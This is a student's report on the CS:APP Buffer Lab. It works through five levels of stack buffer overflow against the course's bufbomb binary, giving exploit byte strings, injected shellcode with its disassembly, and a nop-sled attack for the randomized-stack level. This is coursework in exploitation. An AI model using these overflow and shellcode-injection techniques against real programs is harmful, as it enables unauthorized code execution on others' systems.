 ### Report for Buffer Lab        

#### Bin Liu (2014013466)



##### Level 0: Candle

This problem is easy but important because it's the fundamental of all other 4 problems. After we disassemble “bufbomb”, we can find out that the buffer size is 0x28 = 40 and the entry address of function `smoke` is *0x08048b04*. 

We can illustrate the stack state as follows:

 <img src="pictures\stack1.jpg" height="30%">

So we can get the exploit string as follows:

> 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 2324 25 26 27 28 29 30 31 32 33 34 	35 36 37 38 39 40 41 42 43 44 04 8b 04 08

The front 44 codes are to override the buffer and **`EBP`** value in stack, which can be replaced by any code except `00 `. The last 4 codes are to override the return address. The only thing that we should pay attention to is **byte ordering**!

 

##### Level 1: Sparkler

In the disassembling code of bufbomb, function fizz gets the parameter by following code:

````assembly
mov 0x8(%ebp),%edx
````

We just need to override the return address and write cookie value to address `ebp+0x8`, where `ebp` in function `fizz` exactly equals *`ebp`* in getbuf plus 8. So we can get the exploit string as follows:

> 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 3031 32 33 34 35 36 37 38 39 40 41 42 43 44 2e 8b 04 08 4d bd 7e 79 4d bd 7e 79

The front 44 codes are to override the buffer and **`EBP`** value in stack. The subsequent 4 codes `2e 8b 04 08` are to override the return address. The last 4 codes `4d bd 7e 79` are to write cookie to address `ebp+0x8` to make parameter `val` of function fizz equals to value of `cookie`.

##### Level 2: Firecracker

In this problem, we need to supply a string that encodes actual machine instructions. First, we need write an assembly code to override the `global_value` and jump to function `bang`.

```assembly
movl 0x0804e104, %eax ;0x0804e104 is the address of cookie
movl $0x0804e10c, $ebx ;0x0804e10c is the address of global_value
movl %eax, %ebx	;override the value of global_value
pushl $0x08048b82 ;push the address of function bang into stack
ret ;call ret to jump to function bang.
```

 The address of `cookie` and `global_value` can be found in the disassembling code of bufbomb. After finish assembly code, we should compile it to an object file and dump the object file to disassembling code to get the machine instructions.

```assembly
firecracker.o:     file format elf32-i386
Disassembly of section .text:
00000000 <.text>:
    0:›  a1 04 e1 04 08       ›  mov    0x804e104,%eax
    5:›  bb 0c e1 04 08       ›  mov    $0x804e10c,%ebx
    a:›  89 03                ›  mov    %eax,(%ebx)
    c:›  68 82 8b 04 08       ›  push   $0x8048b82
    11:›  c3                  ›  ret
```

At last, we just need to construct exploit string to insert the machine instructions to stack and override the return address of getbuf to the start of the inserted machine instructions.

> a1 04 e1 04 08 bb 0c e1 04 08 89 03 68 82 8b 04 08 c3 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 d8 35 68 55

The front 18 codes are machine instructions and last 4 codes are address `ebp-0x28`, where the value of`ebp` are avaliable with gdb and `0x28` is the buffer size.

##### Level 3: Dynamite 

Similar to level 2, firstlly we should write an assembly code to override the value in `eax` and recover the `ebp`.

```assembly
movl 0x0804e104, %eax ;override the value in eax to return. 0x0804e104 is the address of cookie
movl $0x55683630, %ebp ;recover the value of ebp. 0x55683630 is the old value of ebp.
pushl $0x08048bf3 ;push the address of function test
ret ;call ret to jump to function test
```

The dump result is 

```assembly
Dynamite.o:     file format elf32-i386
Disassembly of section .text:
00000000 <.text>:
   0:›  a1 04 e1 04 08       ›  mov    0x804e104,%eax
   5:›  bd 30 36 68 55       ›  mov    $0x55683630,%ebp
   a:›  68 f3 8b 04 08       ›  push   $0x8048bf3
   f:›  c3                   ›  ret
```

So the exploit string can be:

> a1 04 e1 04 08 bd 30 36 68 55 68 f3 8b 04 08 c3 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 d8 35 68 55

##### Level 4: Nitroglycerin

Also similar to level 2, firstly we should write an assembly code to:

1.  recover the value of ebp; 

2.  override the value in eax which will be return to function testn

3.  jump to testn.

There are two differences with Level 3:

1. `ebp` is not stable. Hence we can not get the value of `ebp` with gdb. 
2. The assemble code should return to function `testn` instead of `test`.

The second is easy to solve by referring to disassembling code. Then we just need to determine the value of `ebp`. According to the first 3 lines of disassembling code of function testn,  we can conclude that `esp = ebp - 0x28`.

```assembly
8048c54:›  55         ›  push   %ebp
8048c55:›  89 e5      ›  mov    %esp,%ebp
8048c57:›  83 ec 28   ›  sub    $0x28,%esp
```

Therefore we can write the following assembly code:

```assembly
lea 0x28(%esp), %ebp ;recover the value of ebp.
mov 0x0804e104, %eax ;override the value ob eax with cookie.
push $0x08048c67 ;push the address of next instructions of `call getbufn` in function testn.
ret	;call ret to jump back to testn.
```

The dump reslut is:

```assembly
Nitroglycerin.o:     file format elf32-i386
Disassembly of section .text:
00000000 <.text>:
   0:›  8d 6c 24 28          ›  lea    0x28(%esp),%ebp
   4:›  a1 04 e1 04 08       ›  mov    0x804e104,%eax
   9:›  68 67 8c 04 08       ›  push   $0x8048c67
   e:›  c3                   ›  ret
```

The exploit string is:

> 90(repeat 505 times) 8d 6c 24 28 a1 04 e1 04 08 68 67 8c 04 08 c3 90 90 90 90 c0 34 68 55

The first 505 codes are the code of the nop instruction. The subsequent 15 codes are the machine instruction of assembly code. The last 4 codes `c0 34 68 55` are the address `0x556834c0 = 0x55683630 - 0x170`, where `0x55683630` is the address of ebp in stable mode and `0x170` is a roughly value which guarantee that the disassembling code can be excuted robustly.